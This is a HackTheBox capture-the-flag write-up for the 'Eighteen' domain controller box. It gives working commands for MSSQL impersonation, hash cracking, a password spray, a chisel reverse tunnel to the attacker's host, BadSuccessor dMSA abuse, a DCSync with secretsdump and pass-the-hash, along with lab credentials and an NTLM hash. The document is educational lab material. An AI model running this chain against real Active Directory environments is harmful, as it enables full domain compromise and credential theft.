




# HackTheBox — Eighteen

Eighteen is a Windows Server 2025 Domain Controller box that chains together MSSQL privilege impersonation, a cracked Werkzeug password hash, and the freshly-disclosed **BadSuccessor** vulnerability (CVE-2025-53779) to achieve full domain compromise. It's a rare opportunity to practice dMSA abuse in a controlled lab environment — and an even rarer reminder that reading the box instructions before starting saves you hours.

---

## Overview

The attack path looks like this: use provided credentials to access MSSQL, impersonate a SQL login to reach the `financial_planner` database, crack a Werkzeug PBKDF2 hash to recover a reused password, spray that password against WinRM to land a shell as `adam.scott`, then exploit the IT group's `CreateChild` right on an AD Organizational Unit to manufacture a delegated Managed Service Account (dMSA) that inherits the Domain Administrator's Kerberos keys — game over.

---

## Reconnaissance

### Port Scan

Starting with a full TCP scan plus a UDP scan for DNS:



The filtered ports tell an important story: this is a Domain Controller with all the standard DC services running *locally*, but a host firewall is blocking external access to Kerberos (88), RPC (135), LDAP (389), and SMB (445). We'll need to tunnel through our eventual foothold to reach those later. The hostname resolves to `DC01.eighteen.htb`.

### Web Application

The web app on port 80 is a Flask/Werkzeug financial planning application hosted under IIS. Browsing the routes (`/login`, `/register`, `/dashboard`, `/admin`, `/add_expense`) reveals a relatively standard CRUD app. The backend connects to MSSQL via ODBC Driver 17, and a quick check confirms queries are parameterized — no SQL injection avenue here.

Registration errors leak raw SQL error messages via Flask session cookies, which confirms the backend database name and connection details. More usefully, this tells us the app source is sitting at `C:\inetpub\eighteen.htb\app.py` — something we'll want to read once we get a foothold.

### Domain Enumeration

With MSSQL credentials in hand (more on that in a moment), RID brute-forcing via NetExec reveals the domain user list:

```bash
nxc mssql $TARGET -u kevin -p 'iNa2we6haRj2gaw!' -M mssql_priv --rid-brute
```



AD structure has all staff users in `OU=Staff,DC=eighteen,DC=htb` alongside HR, IT, and Finance groups. The IT group contains `adam.scott` and `bob.brown`.

---

## Foothold

### MSSQL Impersonation

The box provides starting credentials: `kevin / iNa2we6haRj2gaw!`. I'll be honest — I missed this in the box description and spent time trying to enumerate the web app first. Read the instructions. Always.

Kevin authenticates to MSSQL via Windows auth and lands as a guest on the `master` database. Not much to do there directly, but checking for impersonation rights reveals something useful:

```sql
SELECT name FROM sys.server_principals WHERE is_disabled = 0;
-- Two SQL logins: sa and appdev
-- kevin uses Windows auth

SELECT * FROM sys.login_token;
-- kevin can EXECUTE AS LOGIN = 'appdev'
```

Impersonating `appdev` opens up the `financial_planner` database:

```sql
EXECUTE AS LOGIN = 'appdev';
USE financial_planner;
SELECT * FROM users;
```

I tried a few other escalation paths from here. `appdev` is not `db_owner` on `financial_planner`, `TRUSTWORTHY` is off, and `xp_cmdshell` is disabled — and can't be enabled by `appdev`. I also tried capturing the MSSQL service account's NTLMv2 hash via `xp_dirtree` pointed at a Responder listener, which worked — but the `mssqlsvc` hash didn't crack against rockyou. Dead end.

The `users` table is more productive:



### Cracking the Werkzeug Hash

The admin password is stored as a Werkzeug PBKDF2-SHA256 hash (hashcat mode 10900). With 600,000 iterations this is slow, but the password turns out to be weak:

```bash
hashcat -m 10900 admin_hash.txt /usr/share/wordlists/rockyou.txt
```

Result: `iloveyou1`. The admin credentials work on the web application's `/admin` panel, which is interesting context, but the real value here is password reuse.

### Password Spray → WinRM Shell

With a full user list and a cracked password, a targeted spray against WinRM is the obvious next move:

```bash
nxc winrm $TARGET -u users.txt -p 'iloveyou1'
```

`adam.scott:iloveyou1` — Pwn3d! Adam is in the IT group and Remote Management Users, so we get a clean WinRM shell:

```bash
evil-winrm -i $TARGET -u adam.scott -p 'iloveyou1'
```

User flag collected. Now for the interesting part.

---

## Privilege Escalation

### Enumeration

Running SharpHound and reviewing the BloodHound graph (lesson learned — do this earlier next time) reveals the privilege escalation path after a significant amount of manual AD enumeration. I checked the usual suspects first:

- **LAPS / ADCS / gMSA:** None configured
- **GPP passwords in SYSVOL:** Nothing
- **Kerberoastable accounts:** Only `krbtgt` — useless
- **Constrained / Unconstrained delegation:** Only DC01 itself (normal for a DC)
- **DnsAdmins group:** Empty
- **IT group ACLs on users, domain object, DC01 computer object:** Nothing
- **AlwaysInstallElevated, modifiable services, AutoLogon:** Nothing
- **IIS app directory writable:** No (RX only for Users)

What BloodHound *does* show is a path: `IT → CanPSRemote → DC01 → HasSession → Administrator → MemberOf → Domain Admins`. Administrator has an active session on DC01. We need to get SYSTEM to dump credentials — but first we need a way to escalate from adam.scott to SYSTEM.

### The Key Finding: CreateChild on Staff OU

A direct ACL query on the Staff OU surface something intentionally placed:

```
IdentityReference:       EIGHTEEN\IT
ActiveDirectoryRights:   CreateChild
ObjectType:              00000000-0000-0000-0000-000000000000  (ALL object types)
OU:                      OU=Staff,DC=eighteen,DC=htb
IsInherited:             False
```

The IT group has `CreateChild` (all object types) on the Staff OU, and it's explicitly set — not inherited. Combined with the domain password policy having `DOMAIN_PASSWORD_STORE_CLEARTEXT` enabled, this is a strong hint toward **BadSuccessor**.

### BadSuccessor (CVE-2025-53779)

BadSuccessor is a privilege escalation technique disclosed in 2025 targeting Windows Server 2025's delegated Managed Service Account (dMSA) feature. The short version: when you create a dMSA with a predecessor account specified, the KDC grants the dMSA Kerberos tickets that include the predecessor's privileges. If you point a dMSA at Domain Administrator, you effectively inherit DA-level Kerberos access — which means DCSync.

All you need is `CreateChild` on any OU. We have it on Staff.

### Step 1: Chisel SOCKS Tunnel

The DC's Kerberos (88), LDAP (389), SMB (445), and RPC (135) ports are filtered by the host firewall. We need to reach them to perform Kerberos operations from Kali. Chisel solves this by creating a SOCKS proxy through our WinRM session.

On Kali:
```bash
chisel server --reverse -p 9001
```

In the evil-winrm session:
```powershell
.\chisel.exe client <VPN_IP>:9001 R:socks
```

Then update `/etc/proxychains4.conf`:
```
socks5 127.0.0.1 1080
```

All impacket commands going forward will be prefixed with `proxychains -q`.

### Step 2: Create a Computer Account

The dMSA authentication flow requires a machine account principal to retrieve the managed password. `Invoke-BadSuccessor.ps1` handles this, creating `Pwn$` with password `Password123!` in the Staff OU. *However*, the script's dMSA creation step silently fails — it has no try/catch, so when `New-ADServiceAccount -CreateDelegatedServiceAccount` errors out, `$service` is null and the script happily prints placeholder output with empty values. Always verify:

```powershell
Get-ADObject -LDAPFilter "(objectClass=msDS-DelegatedManagedServiceAccount)"
# If this returns nothing, the dMSA was never created.
```

### Step 3: Create the dMSA Manually

Here's a critical gotcha: `CreateChild` grants the right to *create* objects, not to *modify* them afterward. Once a dMSA exists, the creator has no `WriteProperty` or `GenericAll` rights to set its attributes (and on Server 2025, ownership defaults to Domain Admins — we can't even modify the DACL). The solution is to set all required attributes in the same LDAP `Add` operation that creates the object, using `-OtherAttributes`:

```powershell
New-ADServiceAccount `
  -Name "evilDMSA2" `
  -DNSHostName "evilDMSA2.eighteen.htb" `
  -CreateDelegatedServiceAccount `
  -PrincipalsAllowedToRetrieveManagedPassword "Pwn$" `
  -Path "OU=Staff,DC=eighteen,DC=htb" `
  -KerberosEncryptionType AES256 `
  -OtherAttributes @{
    "msDS-DelegatedMSAState"          = 2
    "msDS-ManagedAccountPrecededByLink" = "CN=Administrator,CN=Users,DC=eighteen,DC=htb"
  } `
  -PassThru
```

`msDS-DelegatedMSAState = 2` marks the dMSA as active and linked. `msDS-ManagedAccountPrecededByLink` points at Administrator. Everything in one LDAP Add.

### Step 4: Retrieve the dMSA Keys via Impacket

I initially tried Rubeus v2.3.3 for the dMSA key retrieval. It gets "TGS request successful!" then crashes with a `NullReferenceException` in response parsing — the `/outfile` flag doesn't save before the crash hits. Known-broken for this flow. Use impacket instead.

First, compute the AES256 key for the `Pwn$` computer account. The Kerberos salt for computer accounts is `DOMAIN.FQDNhostshortname.domain.fqdn` (all lowercase for the hostname portion):

```bash
python3 -c "
from impacket.krb5.crypto import string_to_key
from impacket.krb5.constants import EncryptionTypes
key = string_to_key(
    EncryptionTypes.aes256_cts_hmac_sha1_96.value,
    b'Password123!',
    b'EIGHTEEN.HTBhostpwn.eighteen.htb'
)
print(key.contents.hex().upper())
"
```

This outputs the AES256 key for `Pwn$`. Now get a TGT:

```bash
proxychains -q impacket-getTGT \
  -aesKey 07CE45274C9D70F6C47ACD9D72838A4D292903CBC8947E2C32B7F9E0ECF17D0B \
  -dc-ip $TARGET \
  'eighteen.htb/Pwn$'
```

Then perform the S4U2Self with the dMSA flag to extract the predecessor's (Administrator's) Kerberos keys:

```bash
KRB5CCNAME=Pwn\$.ccache proxychains -q impacket-getST \
  -k -no-pass \
  -impersonate 'evilDMSA2$' \
  -self -dmsa \
  -dc-ip $TARGET \
  'eighteen.htb/Pwn$'
```

A note on clock skew: the DC is approximately 7 hours ahead of the scanner. Use `-debug` on impacket tools to see the DC's actual UTC time in error messages, then sync your local clock accordingly:

```bash
sudo date -s "YYYY-MM-DD HH:MM:SS"
```

The `getST` call outputs the dMSA's inherited keys (derived from Administrator's credentials) and saves a usable Kerberos ccache ticket.

### Step 5: DCSync

With the dMSA ticket representing Administrator-level Kerberos access, DCSync becomes straightforward:

```bash
KRB5CCNAME='evilDMSA2$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache' \
  proxychains -q impacket-secretsdump \
  -k -no-pass \
  -just-dc-user Administrator \
  'eighteen.htb/evilDMSA2$@dc01.eighteen.htb' \
  -dc-ip $TARGET
```



### Step 6: Pass-the-Hash

```bash
evil-winrm -i $TARGET -u Administrator -H 0b133be956bfaddf9cea56701affddec
```

Root flag collected.

---

## Lessons Learned

**Read the box instructions before starting.** The box provided `kevin`'s credentials. I spent time enumerating the web application before I found them. Would have saved at least an hour.

**Run SharpHound and review BloodHound early.** The IT→DC01→HasSession→Administrator path would have been visible immediately. Instead I spent hours manually checking every standard privesc vector before landing on the ACL finding.

**BadSuccessor (CVE-2025-53779) is powerful and subtle.** Any principal with `CreateChild` on any OU — a permission that might seem innocuous to an AD admin — can create a dMSA pointed at any account, inheriting its full Kerberos privilege set. On a default Windows Server 2025 installation, there is no patch; the mitigation is auditing and restricting `CreateChild` rights.

**`CreateChild` ≠ `WriteProperty`.** Once an object is created, the creator may have no rights to modify it. If you need specific attributes set on a dMSA, set them all at creation time via `-OtherAttributes` in a single LDAP Add operation. Trying to modify afterward will fail with access denied.

**Invoke-BadSuccessor.ps1 silently fails.** The script has no error handling around `New-ADServiceAccount`. If the dMSA creation step fails for any reason, the script continues and prints output with empty values, giving false confidence. Always verify with `Get-ADObject -LDAPFilter "(objectClass=msDS-DelegatedManagedServiceAccount)"`.

**Rubeus v2.3.3 dMSA support is broken.** The `/dmsa` flag in Rubeus `asktgs` triggers a NullReferenceException in response parsing. Use `impacket-getST -impersonate <dMSA$> -self -dmsa` instead — but you'll need a SOCKS tunnel to reach Kerberos from Kali.

**Filtered ports aren't closed ports.** All standard DC ports were open locally on DC01 — just blocked by the host firewall externally. A chisel reverse SOCKS tunnel through the WinRM session bypasses this entirely, letting impacket talk directly to Kerberos and LDAP.

**LDAP signing blocks impacket through SOCKS.** Tools like `badsuccessor.py` that negotiate SASL signing can't complete the handshake through a SOCKS proxy. Do all AD object manipulation in the evil-winrm session (PowerShell AD cmdlets handle signing natively), and reserve impacket for pure Kerberos operations.

**For winPEAS, always redirect to a file.** The terminal output is too fast and too long to read interactively:
```powershell
.\winPEASx64.exe | Out-File -Encoding ascii winpeas.txt
```
